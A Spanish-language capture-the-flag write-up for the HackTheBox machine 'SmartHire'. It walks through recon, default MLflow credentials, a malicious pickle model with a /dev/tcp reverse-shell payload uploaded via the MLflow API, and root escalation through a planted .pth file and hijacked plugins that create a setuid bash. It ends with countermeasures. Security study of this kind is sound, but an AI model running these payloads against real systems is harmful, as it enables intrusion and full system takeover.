

# SmartHire — HackTheBox Writeup

<p align="center">
  
  
  
  
</p>

> Compromiso completo de `smarthire.htb` abusando de una instancia de **MLflow con credenciales por defecto** → **RCE por deserialización de pickle** registrando una versión maliciosa del modelo → escalada a `root` vía **Python `.pth` plugin hijacking** con `sudo`.

---

## 📑 Tabla de contenidos

- [Ficha técnica](#-ficha-técnica)
- [Cadena de ataque](#-cadena-de-ataque)
- [1. Reconocimiento](#1-reconocimiento)
- [2. Acceso a MLflow — credenciales por defecto](#2-acceso-a-mlflow--credenciales-por-defecto)
- [3. Aplicación SmartHire — registro y exploración](#3-aplicación-smarthire--registro-y-exploración)
- [4. Foothold — MLflow Pickle RCE](#4-foothold--mlflow-pickle-rce)
- [5. Escalada a root — Python Plugin Hijacking](#5-escalada-a-root--python-plugin-hijacking)
- [Resumen de vulnerabilidades](#-resumen-de-vulnerabilidades)
- [Lecciones y contramedidas](#-lecciones-y-contramedidas)

---

## 🎯 Ficha técnica

| Campo | Valor |
|---|---|
| **Máquina** | `smarthire.htb` |
| **Sistema operativo** | Linux (Ubuntu 22.04) |
| **Dificultad** | Media |
| **IP** | `10.129.44.43` |
| **Foothold** | `svcweb` — MLflow pickle RCE |
| **Escalada** | `root` — `.pth` plugin hijacking vía `sudo` |
| **Fecha** | Mayo 2026 |

---

## 🗺️ Cadena de ataque



| # | Fase | Técnica | Resultado |
|---|---|---|---|
| 1 | Reconocimiento | Nmap, gobuster vhost | Subdominio `models.smarthire.htb` |
| 2 | MLflow — credenciales | Default creds | Acceso admin `admin:password` |
| 3 | SmartHire App | Registro + entrenamiento | Modelo `testcorp-xxxx-model` v1 |
| 4 | Pickle RCE | MLflow API + deserialización | Shell como `svcweb` |
| 5 | Plugin Hijacking | `sudo` + `.pth` file | Root shell |

---

## 1. Reconocimiento

### 1.1 Escaneo de puertos con Nmap

```bash
sudo nmap -sS -Pn -sV -sC 10.129.44.43
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://smarthire.htb/
```

- **22** — OpenSSH, no explotable sin credenciales.
- **80** — nginx que redirige a `http://smarthire.htb/` → virtual host configurado.

```bash
echo '10.129.44.43 smarthire.htb' | sudo tee -a /etc/hosts
```

### 1.2 Enumeración del sitio principal

`http://smarthire.htb/` presenta **SmartHire**, una plataforma de contratación con IA. Hallazgos:

- Mención de integración con **MLflow** en la sección de testimonials.
- Endpoints `/login` y `/register` accesibles sin autenticación.
- El formulario de registro requiere `username`, `company`, `password`.

> **Pista clave:** un testimonial menciona la integración con MLflow, un servicio de gestión de experimentos de ML que suele exponerse en el puerto `5000` o en un subdominio separado.

### 1.3 Descubrimiento de subdominios (VHost fuzzing)

```bash
gobuster vhost -u http://smarthire.htb \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  --append-domain
# Found: models.smarthire.htb  Status: 401 [Size: 137]

echo '10.129.44.43 models.smarthire.htb' | sudo tee -a /etc/hosts
```

---

## 2. Acceso a MLflow — credenciales por defecto

### 2.1 Identificación del servicio

```bash
curl -s -I http://models.smarthire.htb/
# HTTP/1.1 401 UNAUTHORIZED
# WWW-Authenticate: Basic realm="mlflow"
```

El header `WWW-Authenticate` confirma una instancia de MLflow con **HTTP Basic Auth**.

### 2.2 Credenciales por defecto

MLflow no documenta credenciales por defecto, pero en despliegues sin hardening es común `admin:password`, `admin:admin` o `mlflow:mlflow`:

```bash
curl -s -u admin:admin    http://models.smarthire.htb/   # You are not authenticated...
curl -s -u admin:password http://models.smarthire.htb/   # <title>MLflow</title> ✅
```

> **Credenciales válidas:** `admin:password` → `http://models.smarthire.htb/`

### 2.3 Exploración de la API de MLflow

```bash
# Experimentos
curl -s -u admin:password \
  'http://models.smarthire.htb/api/2.0/mlflow/experiments/search' \
  -H 'Content-Type: application/json' -d '{"max_results": 100}'
# → experiment_id "0" ("Default")

# Modelos registrados
curl -s -u admin:password \
  'http://models.smarthire.htb/api/2.0/mlflow/registered-models/search?max_results=100'
# → {}  (servidor vacío — relevante para el vector posterior)
```

---

## 3. Aplicación SmartHire — registro y exploración

### 3.1 Registro y login

```bash
curl -s -X POST http://smarthire.htb/register \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'username=testuser&password=Test1234&company=testcorp' -c cookies.txt -L

curl -s -X POST http://smarthire.htb/login \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'username=testuser&password=Test1234' -c cookies.txt -b cookies.txt -D headers.txt
# Location: /dashboard   +   Set-Cookie: session=...
```

### 3.2 Exploración del dashboard

```bash
curl -s http://smarthire.htb/model_info -b cookies.txt
# { "model_name": "testcorp-2d14db751dd1-model", "status": "success" }
```

> **Observación:** el nombre del modelo se construye con el nombre de la empresa registrada (`testcorp`) más un hash derivado del hostname. **Cada usuario tiene su propio modelo en MLflow.**

Endpoints críticos del dashboard:

- `/upload_hiring_data` — acepta CSV, entrena un modelo sklearn y lo registra en MLflow.
- `/predict` — carga el modelo de MLflow y predice sobre el CSV subido.
- `/model_info` — devuelve la metadata del modelo activo del usuario.

---

## 4. Foothold — MLflow Pickle RCE

### 4.1 Concepto del ataque

MLflow almacena modelos sklearn en formato **pickle**. Al deserializar, pickle puede ejecutar código arbitrario mediante el método especial `__reduce__`. El flujo:

1. Entrenar un modelo legítimo → crea `testcorp-xxxx-model` **v1**.
2. Crear un nuevo run en MLflow vía API con `admin:password`.
3. Subir un **pickle malicioso** como artifact del run.
4. Registrar una nueva versión (**v2**) del modelo apuntando a ese run.
5. Hacer una predicción → el servidor carga v2, deserializa el pickle y ejecuta el payload.

> **Por qué funciona:** el servidor carga la versión más reciente al predecir; la API permite registrar versiones con cualquier artifact URI; pickle no valida el contenido al deserializar; y el servidor web corre como `svcweb`.

### 4.2 Entrenar el modelo legítimo (v1)

```bash
cat > /tmp/hiring.csv << 'EOF'
experience,skills,hired
60,"Python, Machine Learning, SQL",1
24,"Java, Spring, MySQL",0
48,"Python, Deep Learning, TensorFlow",1
12,"HTML, CSS, JavaScript",0
36,"Python, Data Science, R",1
EOF

curl -s -X POST http://smarthire.htb/upload_hiring_data -b cookies.txt -F 'file=@/tmp/hiring.csv'
# → "registered_model": "testcorp-2d14db751dd1-model", "version": "1"
```

### 4.3 Generar el pickle malicioso

```python
# /tmp/make_evil_model.py
import mlflow, mlflow.sklearn, os

class EvilModel:
    def predict(self, X):
        os.system("bash -c 'bash -i >& /dev/tcp/10.10.17.130/4444 0>&1'")
        return [0]
    def __reduce__(self):                       # se ejecuta al deserializar
        cmd = "bash -c 'bash -i >& /dev/tcp/10.10.17.130/4444 0>&1'"
        return (os.system, (cmd,))

with mlflow.start_run():
    mlflow.sklearn.log_model(EvilModel(), "model")
```

```bash
pip3 install mlflow --break-system-packages -q
python3 /tmp/make_evil_model.py
# genera ~/mlruns/0/models/<run_id>/artifacts/{model.pkl,MLmodel}
```

### 4.4 Crear run y subir artifacts al MLflow del servidor

```bash
# Crear run
curl -s -u admin:password -X POST \
  'http://models.smarthire.htb/api/2.0/mlflow/runs/create' \
  -H 'Content-Type: application/json' \
  -d '{"experiment_id":"0","run_name":"evil"}'
# → run_id

RUN_ID='b51f250556cd4e238f446c460a3e5466'
MODEL_DIR="$HOME/mlruns/0/models/$(ls $HOME/mlruns/0/models/)/artifacts"

# Subir model.pkl y MLmodel vía PUT a la API de artifacts
for f in model.pkl MLmodel; do
  curl -s -u admin:password -X PUT \
    "http://models.smarthire.htb/api/2.0/mlflow-artifacts/artifacts/0/${RUN_ID}/artifacts/model/${f}" \
    -H 'Content-Type: application/octet-stream' \
    --data-binary "@${MODEL_DIR}/${f}"
done
```

### 4.5 Registrar la versión maliciosa (v2)

```bash
curl -s -u admin:password -X POST \
  'http://models.smarthire.htb/api/2.0/mlflow/model-versions/create' \
  -H 'Content-Type: application/json' \
  -d "{
    \"name\": \"testcorp-2d14db751dd1-model\",
    \"source\": \"mlflow-artifacts:/0/${RUN_ID}/artifacts/model\",
    \"run_id\": \"${RUN_ID}\"
  }"
# → "version": "2", "status": "READY"
```

### 4.6 Disparar el RCE con una predicción

```bash
# Terminal 1 — listener
nc -lvnp 4444

# Terminal 2 — trigger
cat > /tmp/resume.csv << 'EOF'
experience,skills
48,"Python, Machine Learning"
EOF
curl -s -X POST http://smarthire.htb/predict -b cookies.txt -F 'file=@/tmp/resume.csv'
```

```text
Ncat: Connection from 10.129.44.43:47382
svcweb@smarthire:/var/www/smarthire.htb$ id
uid=1000(svcweb) gid=1000(svcweb) groups=1000(svcweb),1001(mlflowweb),1002(devs)
```

🚩 **Foothold como `svcweb`.**

```bash
cat /home/svcweb/user.txt
# user.txt → [REDACTED]
```

---

## 5. Escalada a root — Python Plugin Hijacking

### 5.1 Enumeración de privilegios

```bash
sudo -l
# (root) NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
```

Podemos ejecutar `mlflowctl.py` como root, sin contraseña y con **argumentos arbitrarios** (`*`).

### 5.2 Análisis del script

```python
# /opt/tools/mlflow_ctl/mlflowctl.py (fragmento)
from pathlib import Path
import sys, site

BASE_DIR = Path(__file__).resolve().parent
PLUGINS_DIR = BASE_DIR / 'plugins'

for path in PLUGINS_DIR.iterdir():
    if path.is_dir():
        site.addsitedir(str(path))          # <- agrega al sys.path

def main():
    import mlflow_actions, backup_models      # <- importa desde plugins
    ...
    elif action == 'backup-models':
        backup_models.run()
```

### 5.3 Permisos de los plugins

```bash
ls -la /opt/tools/mlflow_ctl/plugins/
# drwxr-xr-x core  root:root   <- no escribible
# drwxrwxr-x dev   root:devs   <- ESCRIBIBLE (somos del grupo devs)
```

> **Vulnerabilidad:** el script añade **todos** los subdirectorios de `plugins` al `sys.path`, y `dev` es escribible por el grupo `devs`. El obstáculo: `core` se procesa antes que `dev` (orden alfabético), así que sus módulos tienen precedencia.

### 5.4 El problema del orden de `sys.path`

`site.addsitedir()` añade los directorios al **final** de `sys.path`. Como `core` va primero, sus `backup_models.py` y `mlflow_actions.py` ganan. Necesitamos saltarnos ese orden.

### 5.5 La solución: archivo `.pth` malicioso

Cuando `site.addsitedir()` procesa un directorio, **ejecuta las líneas de los `.pth` que empiezan por `import`**. Lo aprovechamos para insertar `dev` al **inicio** de `sys.path`, por delante de `core`:

```bash
cat > /opt/tools/mlflow_ctl/plugins/dev/evil.pth << 'EOF'
import sys; sys.path.insert(0, '/opt/tools/mlflow_ctl/plugins/dev')
EOF
```

### 5.6 Módulos maliciosos

```bash
# backup_models.py — reemplaza el plugin legítimo
cat > /opt/tools/mlflow_ctl/plugins/dev/backup_models.py << 'EOF'
import os
os.system('cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash')
def run():
    os.system('cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash')
EOF

# mlflow_actions.py — también importado en main()
cat > /opt/tools/mlflow_ctl/plugins/dev/mlflow_actions.py << 'EOF'
import os
os.system('cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash')
def check_status(): pass
def restart(): pass
EOF
```

### 5.7 Ejecución

```bash
sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py backup-models
# [*] Running backup via backup_models plugin...

/tmp/rootbash -p
# rootbash-5.1# id
# uid=1000(svcweb) gid=1000(svcweb) euid=0(root) egid=0(root)
```

🚩 **Root shell obtenida.**

```bash
cat /root/root.txt
# root.txt → [REDACTED]
```

---

## 🔎 Resumen de vulnerabilidades

| # | Vulnerabilidad | Componente | Impacto |
|---|---|---|---|
| 1 | Credenciales por defecto (`admin:password`) | MLflow | Acceso admin completo a MLflow |
| 2 | Pickle RCE vía model versioning | MLflow + SmartHire `/predict` | RCE como `svcweb` |
| 3 | Python `.pth` plugin hijacking (`sudo`) | `mlflowctl.py` (root) | Escalada a root |

---

## 🛡️ Lecciones y contramedidas

**MLflow — credenciales por defecto.** En entornos reales de ML/Data Science es frecuente encontrar Jupyter, MLflow, MinIO y otros servicios internos con credenciales triviales.
> Cambiar credenciales en el primer despliegue, usar secretos gestionados (Vault, AWS Secrets Manager) y restringir el acceso a la red interna.

**MLflow Pickle RCE.** La API permite registrar versiones de modelos sin validar el contenido del pickle, que ejecuta código al deserializar vía `__reduce__`.
> Validar y firmar modelos antes de cargarlos, usar formatos seguros (`skops`, `onnx`), proteger la API con auth fuerte + RBAC y ejecutar la inferencia en un sandbox aislado.

**Python `.pth` plugin hijacking.** `site.addsitedir()` ejecuta líneas `import` de los `.pth`. Si un usuario controla un directorio añadido al `sys.path` de un script ejecutado como root vía `sudo`, puede inyectar módulos y ejecutar código como root.
> Nunca usar `site.addsitedir()` en scripts privilegiados. Si se necesita un sistema de plugins, garantizar que los directorios son de solo lectura para usuarios no privilegiados y usar `importlib` con rutas absolutas validadas.

---

<p align="center">
  <sub>Escrito con fines <b>educativos</b>. Máquina resuelta en el laboratorio legal y controlado de HackTheBox.</sub>
</p>